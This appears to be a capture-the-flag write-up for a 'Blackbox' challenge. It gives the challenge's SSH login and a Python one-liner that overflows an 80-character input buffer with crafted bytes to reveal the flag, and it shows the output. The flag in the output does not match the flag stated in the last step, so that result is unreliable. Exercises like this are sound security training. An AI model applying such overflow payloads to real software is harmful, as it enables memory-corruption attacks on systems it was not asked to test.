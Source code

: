 ## Blackbox
The main idea of finding the flag is String Overflow.

#### Step-1:
After I SSH'ed into `ssh blackbox@104.131.79.111 -p 1001` with password as `guest` (given), I got this:

<img src="1.png">

#### Step-2:
So, I tried to run `blackbox` file.

<img src="2.png">

#### Step-3:
Now it was time to go wild. So, I gave very big inputs to see the threshold of String Overflow.

<img src="3.png">

#### Step-4:
So, lets just print to exceed 80 characters because at 81st character we find the string overflow here.
Executing this one liner, gives us flag.

```python
python -c "print '11111111111111111111111111111111111111111111111111111111111111111111111111111111\x02\x00\x00\x00'" | ./blackbox
```
Output:

```bash
What is 1 + 1 = CORRECT! You get flag: 
flag{0n3_4lus_1_1s_Tw0_dumm13!!}

[2]+  Stopped                 python -c "print '11111111111111111111111111111111111111111111111111111111111111111111111111111111\x02\x00\x00\x00'" | ./blackbox
```

<img src="Flag.png">

#### Step-5:
Finally, the flag becomes: 
`the_flag_is{A_sP3c7r0grAm?!}`